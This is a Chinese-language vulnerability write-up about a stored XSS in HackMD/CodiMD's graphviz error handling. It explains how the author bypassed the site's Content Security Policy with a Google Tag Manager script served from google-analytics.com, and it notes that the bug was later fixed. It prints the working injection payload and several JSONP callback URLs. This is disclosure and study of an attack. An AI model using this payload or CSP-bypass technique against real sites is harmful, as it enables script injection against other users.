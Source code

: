 HackMD Stored XSS & Bypass CSP with Google Tag Manager
===

前一陣子 Orange 發表了一篇 [A Wormable XSS on HackMD!
](https://blog.orange.tw/2019/03/a-wormable-xss-on-hackmd.html)

剛好在那之前有跟著研究了一下這個漏洞，學習到了很多有關於 CSP 繞過的奇技淫巧

當然這次利用到的 `Google Tag Manager` 我覺得也是一個蠻有趣的繞過方式，在後面也會藉此順便聊聊整個測試的思路以及最後怎麼利用 Google Tag Manager 繞過 CSP 並最終觸發 Stored XSS 

比較有趣的是，上次在 Review `CodiMD` 的 Repo 之後，我本來以為已經沒有相較之下比較高風險的弱點了，但沒想到藉由夥伴意外的發現，重新仔細 Review 原始碼之後，竟然還發現有幾個已經存在兩年多的程式碼都沒有妥善的 escape，也就因此導致本次的 Stored XSS，這也告訴我們漏洞總會藏在我們意想不到的地方，並不是我們單方面認為沒漏洞就沒有的 XDDD


## 漏洞成因

最初會注意到這個漏洞，是因為朋友 HexRabbit 約在 3 月底發現同學利用 `graphviz` 語法撰寫 flowchart 時，在語法錯誤的情況下會額外跳出一個含有錯誤訊息的小方塊，並意外發現錯誤訊息中的 tag 並沒有被 filter，而且可以插入任意的 html，錯誤訊息如下方範例: 

![](https://i.imgur.com/5RjrFH3.png)

我們仔細追一下[原始碼](https://github.com/hackmdio/codimd/blob/1434cdb6b2e89cc771913ea1bd2c44779206196c/public/js/extra.js#L360)，會發現處理 graphviz 的部分為以下程式碼：
```=javascript=1
  // graphviz
  var graphvizs = view.find('div.graphviz.raw').removeClass('raw')
  graphvizs.each(function (key, value) {
    try {
      var $value = $(value)
      var $ele = $(value).parent().parent()

      var graphviz = Viz($value.text())
      if (!graphviz) throw Error('viz.js output empty graph')
      $value.html(graphviz)

      $ele.addClass('graphviz')
      $value.children().unwrap().unwrap()
    } catch (err) {
      $value.unwrap()
      $value.parent().append('<div class="alert alert-warning">' + err + '</div>')
      console.warn(err)
    }
})
```

我們可以發現在 `$value.parent().append('<div class="alert alert-warning">' + err + '</div>')` 的地方，當發生錯誤時會直接 append `err` 訊息到 html 之中，完全沒有做任何的 escape，換句話說，我們只要想辦法在 error message 塞入惡意的 HTML 程式碼，就可以去任意執行 JavaScript

另外一個部分就是，在測試的過程中，我發現這個 Stored XSS 還是有所限制的，最大長度只能輸入到 82 個字，再多就會被吃掉，也就是我們還要想辦法在 82 個字以內完成任意 JavaScript 的執行（其實一開始想到這邊我就有點卡住了，因為繞 CSP 構造的 Gadgets 或 jsonp 照經驗來說都會超過這個長度...）

## CSP Bypass

雖然我們得到了一個 Stored XSS，但是沒有預期的彈窗，我們從 Console 以及過往的經驗可以得知 HackMD 是有配置 CSP(Content Security Policy) 來阻擋未經授權的 JavaScript 執行的！而現階段的 CSP 代碼如下：

```
script-src 'self' vimeo.com https://gist.github.com www.slideshare.net 'unsafe-eval' 
https://assets.hackmd.io https://www.google.com https://apis.google.com https://docs.google.com 
https://www.dropbox.com https://*.disqus.com https://*.disquscdn.com https://www.google-analytics.com 
https://stats.g.doubleclick.net https://secure.quantserve.com https://rules.quantcount.com https://pixel.quantserve.com 
https://js.driftt.com https://embed.small.chat https://static.small.chat https://www.googletagmanager.com 
https://cdn.ravenjs.com https://browser.sentry-cdn.com 'nonce-6fea8a60-c394-470c-86bd-73259adc065d' 
'sha256-EtvSSxRwce5cLeFBZbvZvDrTiRoyoXbWWwvEVciM5Ag=' 'sha256-NZb7w9GYJNUrMEidK01d3/DEtYztrtnXC/dQw7agdY4=' 
'sha256-L0TsyAQLAc0koby5DCbFAwFfRs9ZxesA+4xg0QDSrdI='; img-src * data:; style-src 'self' 'unsafe-inline' 
https://assets-cdn.github.com https://github.githubassets.com https://assets.hackmd.io https://www.google.com 
https://fonts.gstatic.com https://*.disquscdn.com https://static.small.chat; font-src 'self' data: 
https://public.slidesharecdn.com https://assets.hackmd.io https://*.disquscdn.com; object-src *; media-src *; 
frame-src *; child-src *; connect-src *; base-uri 'none'; form-action 'self' https://www.paypal.com; upgrade-insecure-requests
```

雖然 `unsafe-eval` 還在，但最難過的是 `https://cdnjs.cloudflare.com` 已經從 CSP 被拿掉了，所以我們不能使用這個方便的 domain 來 exploit，那還有什麼招可以使用呢？我們還是先把這條 CSP Rule 擺上 Google 提供的 [CSP Evaluator](https://csp-evaluator.withgoogle.com/) 來檢核

![](https://i.imgur.com/65mrIIH.png)

我們可以發現網站很快地列出了一些高風險的 domain 提供測試，但我們要如何快速的知道這些 domain 該如何利用呢？

我們可以直接到 Google 在 GitHub 上的專案 `csp-evaluator` 上面尋找，於是我們透過[此專案](https://github.com/google/csp-evaluator/blob/master/whitelist_bypasses/json/jsonp.json)在 `whitelist_bypasses/json/jsonp.json` 目錄下的檔案，很快的知道其中三個 domain 的 jsonp 該如何使用：

* Viemo 
    * 長度過長，而且無法有效地控制內容
    * https://vimeo.com/api/oembed.json?format=json&callback=alert&url=https://vimeo.com/286898202

* www.google.com
    * 沒找到有效控制內容的方式
    * https://www.google.com/tools/feedback/escalation-options?callback=alert

* disqus
    * 無法有效控制內容
    * https://links.services.disqus.com/api/ping?format=jsonp&key=cfdfcf52dffd0a702a61bad27507376d


以上這三個 domain 在測試過後都無法有效利用（也可能是我沒有找到正確的方法，還請各位多多指教），而另外兩個為 Google Tag Manager 的服務，分別是 `www.googletagmanager.com` 以及 `www.google-analytics.com`，之前查詢資料的過程中，曾經看到 kobo 的這篇部落格[Content Security Policy Level 3におけるXSS対策](https://inside.pixiv.blog/kobo/5137)

![csp](https://inside.pixiv.blog/wp-content/uploads/2018/10/csp-bypass-chart.png)

CSP rule 如果在 `script-src` 同時有 `www.google-analytics.com` 以及 `unsafe-inline` 的話，就可以執行任意的 JavaScript，到這裡還不是很確定是否可以 Exploit，於是我們馬上動手試試，首先開啟 Google Tag Manager，設定一個變數，並放入你想要執行的 JavaScript

![](https://i.imgur.com/K863Bl0.png)

接著開啟代碼設定，將這個變數放入任一位置（只要讓變數載入就好），並設定觸發事件

![](https://i.imgur.com/MtfzBku.png)

產生完畢後會得到屬於你的 GA link：
* https://www.google-analytics.com/gtm/js?id=GTM-P49RD4V

最後只要放入原本就有支援 GA 的 HackMD，我們就會發現 JavaScript 程式碼被執行

至此，我們就成功繞過 CSP 以及能夠執行任意長度的代碼了！以下是最終代碼：

```
```graphviz
graph<<script src="https://www.google-analytics.com/gtm/js?id=GTM-P49RD4V">

```

Demo 影片如下： https://www.youtube.com/watch?v=m8Q9hX9jBFM

## 後記

當看到 `unsafe-eval` 的時候，其實第一篇想到的是 [Breaking XSS mitigations via Script Gadgets](https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf)，但最尷尬的是這次的 XSS 限制 82 bytes，串起一個 Gadgets 很容易就超過了，所以一開始就沒有往這個方向挖掘 XD

另外這個漏洞已經修復了，可以參考此 [Pull Request](https://github.com/hackmdio/codimd/pull/1193)

最後感謝 [@HexRabbit](https://github.com/HexRabbit/) 發現這個 XSS 的注入點，讓我們能發現好玩的方法 Bypass CSP！

